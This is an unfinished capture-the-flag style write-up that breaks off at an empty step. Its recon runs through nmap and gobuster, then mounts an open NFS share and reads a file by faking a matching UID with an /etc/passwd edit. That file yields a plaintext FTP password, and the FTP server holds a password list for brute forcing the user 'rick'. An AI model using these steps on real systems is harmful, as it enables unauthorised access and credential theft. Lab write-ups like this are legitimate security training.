 WIP
> Misconfigs conquered, identities claimed.
#### Steps
1. I started out with a verbose `nmap` scan
```
└─$ nmap -sV 10.10.218.211 -v
[ ... REDACTED ... ]
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
111/tcp  open  rpcbind 2-4 (RPC #100000)
2049/tcp open  nfs_acl 2-3 (RPC #100227)
```
2. I immedately tried to log into `ftp` with anonymous access but that didn't work
3. Navigating to the website didn't turn up much either, creating an account didn't turn up any new pages (though we come back to it later on) and the administrator page didn't have immediate new info
4. I used `gobutser` for directory busting with this command:
```
└─$ gobuster dir -u http://10.10.218.211 -w /usr/share/dirb/wordlists/common.txt
```
5. But that also didn't turn up anything interesting
6. Next I moved on to the rpc ports. `2049` didn't reveal anything, but running a script scan on port `111` I found a mountpoint
```
└─$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.218.211
PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /mnt/share *
```
7. You can also get similar results with `showmount -e [IP]`
8. I created a moutpoint directory and mounted the file with `└─$ sudo mount -t nfs 10.10.218.211:/mnt/share miscon_tmp`, but since the user and group `1003` didn't match my machine, I wasn't able to view the file
```
drwx------  2     1003     1003  4096 Aug  8  2023 miscon_tmp
```
9. To bypass this I created a new user and modified the user and group IDs to match the file
```
sudo adduser hijack
sudo passwd hijack
sudo nano /etc/passwd
hijack:x:1003:1003::/home/hijack:/bin/sh
```
10. I also created a home directory for the hijack user, unmounted the file, and remounted it in hijack's home directory to avoid having to mess with permission configuration
```
└─$ su hijack                                            
Password: 
$ /bin/bash
hijack@kali:~$ ls
miscon_tmp
hijack@kali:~$ cd miscon_tmp/
hijack@kali:~/miscon_tmp$ ls
for_employees.txt
hijack@kali:~/miscon_tmp$ cat for_employees.txt 
ftp creds :

ftpuser:W3stV1rg1n14M0un741nM4m4
```
11. ftp password!
12. All files on the ftp server were hidden so I used `ls -la` to view them
```
ftp> ls -la
229 Entering Extended Passive Mode (|||39262|)
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 Aug 08  2023 .
drwxr-xr-x    2 1002     1002         4096 Aug 08  2023 ..
-rwxr-xr-x    1 1002     1002          220 Aug 08  2023 .bash_logout
-rwxr-xr-x    1 1002     1002         3771 Aug 08  2023 .bashrc
-rw-r--r--    1 1002     1002          368 Aug 08  2023 .from_admin.txt
-rw-r--r--    1 1002     1002         3150 Aug 08  2023 .passwords_list.txt
-rwxr-xr-x    1 1002     1002          655 Aug 08  2023 .profile
```
13. I copied the admin and password files to my host machine with `mget .*` this is `.from_admin.txt`:
```
To all employees, this is "admin" speaking,
i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far, so i encourage you to use them, even me i'm using one of those.

NOTE To rick : good job on limiting login attempts, it works like a charm, this will prevent any future brute forcing.
```
14. From this we have a username `rick` and the other file provides the password list for bruteforcing (through there is rate limiting in place)
15. 
